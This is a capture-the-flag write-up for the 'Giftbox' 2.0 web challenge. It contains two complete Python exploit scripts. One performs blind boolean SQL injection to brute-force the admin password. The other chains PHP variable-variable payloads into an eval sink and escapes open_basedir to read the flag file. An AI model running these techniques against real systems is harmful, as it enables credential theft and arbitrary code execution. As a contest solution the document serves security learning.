

[中文](./readme_zh.md) [English](./readme.md)

[Docker](./docker) [Exp](./exp.py)

# Giftbox WriteUp

Here is 1.0 version writeup:

[impakho/ciscn2019_giftbox](https://github.com/impakho/ciscn2019_giftbox)

This challenge is 2.0 version.



The web page shows us a sandbox command line。


Find a hint in `main.js`，it provides `otp` (python lib) and `totp's params`, you can write a script based on the hint.


Also you can find `totp's key` in `main.js`.


`cat usage.md` to see the `command usage`, there is a sqli at `login`, without any `filter`. You can fuzz to find out, the username and password length limit are `100` byte。

Brute password script:

```
import requests
import urllib
import string
import pyotp

url = 'http://127.0.0.1/shell.php?a=%s&totp=%s'
totp = pyotp.TOTP("GAXG24JTMZXGKZBU", digits=8, interval=5)
s = requests.session()

length = 0
left = 0x0
right = 0xff
while True:
    mid = int((right - left) / 2 + left)
    if mid == left:
        length = mid
        break
    username = "'/**/or/**/if(length((select/**/password/**/from/**/users/**/limit/**/1))>=%d,1,0)#" % mid
    password = "b"
    payload = 'login %s %s' % (username, password)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    res = s.get(payload).text
    if 'incorrect' in res:
        left = mid
    else:
        right = mid
print(length)

real_password = ''
for i in range(1, length+1):
    left = 0x20
    right = 0x7e
    while True:
        mid = int((right - left) / 2 + left)
        if mid == left:
            real_password += chr(mid)
            break
        username = "'/**/or/**/if(ascii(substr((select/**/password/**/from/**/users/**/limit/**/1),%d,1))>=%d,1,0)#" % (i, mid)
        password = "b"
        payload = 'login %s %s' % (username, password)
        payload = urllib.quote(payload)
        payload = url % (payload, totp.now())
        res = s.get(payload).text
        if 'incorrect' in res:
            left = mid
        else:
            right = mid
    print(real_password)
    if len(real_password) < i:
        print('No.%d char not in range' % i)
        break
```


Got admin password: `hint{G1ve_u_hi33en_C0mm3nd-sh0w_hiiintttt_23333}`


There is a hint `sh0w_hiiintttt_23333`, `eval` is being used at `launch`.

Before `launch`, `targeting` is require. But your input is limited. You can fuzz and find out. `code` shoule be in `a-zA-Z0-9`. `position` should be in `a-zA-Z0-9})$({_+-,.`. Length is also limited。

You should use `php variable variables` to build the `payload`.

In order to read the flag, you need to bypass `open_basedir`.

`getflag` script:

```
import requests
import urllib
import string
import pyotp

url = 'http://127.0.0.1/shell.php?a=%s&totp=%s'
totp = pyotp.TOTP("GAXG24JTMZXGKZBU", digits=8, interval=5)
s = requests.session()

def login(password):
    username = 'admin'
    payload = 'login %s %s' % (username, password)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def destruct():
    payload = 'destruct'
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def targeting(code, position):
    payload = 'targeting %s %s' % (code, position)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def launch():
    payload = 'launch'
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    return s.get(payload).text

login('hint{G1ve_u_hi33en_C0mm3nd-sh0w_hiiintttt_23333}')
destruct()
targeting('a','chr')
targeting('b','{$a(46)}')
targeting('c','{$b}{$b}')
targeting('d','{$a(47)}')
targeting('e','js')
targeting('f','open_basedir')
targeting('g','chdir')
targeting('h','ini_set')
targeting('i','file_get_')
targeting('j','{$i}contents')
targeting('k','{$g($e)}')
targeting('l','{$h($f,$c)}')
targeting('m','{$g($c)}')
targeting('n','{$h($f,$d)}')
targeting('o','{$d}flag')
targeting('p','{$j($o)}')
targeting('q','printf')
targeting('r','{$q($p)}')
print(launch())
```


Flag：`de1ctf{h3r3_y0uuur_g1fttt_0uT_0f_b0o0o0o0o0xx}`